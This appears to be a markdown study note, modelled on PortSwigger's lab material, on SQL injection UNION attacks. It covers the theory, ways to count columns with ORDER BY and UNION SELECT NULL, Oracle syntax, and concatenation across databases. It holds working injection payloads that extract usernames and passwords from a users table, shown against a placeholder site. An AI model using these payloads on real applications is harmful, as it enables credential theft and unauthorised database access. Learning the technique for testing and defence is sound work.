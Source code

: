 # SQL injection UNION attacks

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

## Table of Content

- [theory](#theory)
- [Determining the number of columns required](#determining-the-number-of-columns-required)
    - [First method](#first-method)
    - [Seconde method](#seconde-method)
- [Database specific syntax](#database-specific-syntax)
- [Using a SQL injection UNION attack to retrieve interesting data](#using-a-sql-injection-union-attack-to-retrieve-interesting-data)
- [Retrieving multiple values within a single column](#retrieving-multiple-values-within-a-single-column)

## Theory:

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query returns a single result set with two columns, containing values from columns a and b in table1 and columns c and d in table2.

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

How many columns are being returned from the original query ?

Which columns returned from the original query are of a suitable data type to hold the results from the injected query ?

## Determining the number of columns required

2 options exist to determine it:

#### First method:

One method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
-- etc.
```

URL example:

`https://test.net?category=Accessories' ORDER BY 1--` -> increment `1` with [burp brutforce](/tools/burpsuite/brutforce.md) till the webpage return an error

response can be:

- error http
- generic error response
- no result 

#### Seconde method

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

If the number of nulls does not match the number of columns, the database returns an error, such as:

All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

As with the ORDER BY technique, the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results. When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. 

URL example:

`https://test.net?category=Accessories' UNION SELECT NULL,NULL --`... till it doesnt return an error

### Database specific syntax

On Oracle, every SELECT query must use the FROM keyword and specify a valid table.

`' UNION SELECT NULL FROM DUAL--`

## Using a SQL injection UNION attack to retrieve interesting data

Require: 

- [Determining the number of columns](#determining-the-number-of-columns-required)
- [Finding columns with a useful data type](#finding-columns-with-a-useful-data-type)

Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the users table by submitting the input:

`' UNION SELECT username, password FROM users--`

In order to perform this attack, you need to know that there is a table called users with two columns called username and password. Without this information, you would have to guess the names of the tables and columns. All modern databases provide ways to examine the database structure, and determine what tables and columns they contain.

solve:

`?Accessories' UNION SELECT username, password FROM users --`

## Retrieving multiple values within a single column

if there is a single column you can't concat values before sending to the single column: 

to see all syntax for [string concate](/)

String concatenation

SQL | format
--- | ---
Oracle | `'foo'||'bar'`
Microsoft | `'foo'+'bar'`
PostgreSQL | `'foo'||'bar'`
MySQL | `'foo' 'bar'` OR `CONCAT('foo','bar')`

For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

Example :

union as 2 column : unknow type | string

`?Accessories' UNION SELECT NULL, username||'~'||password FROM users--`

### Documentation

- [portswigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks)
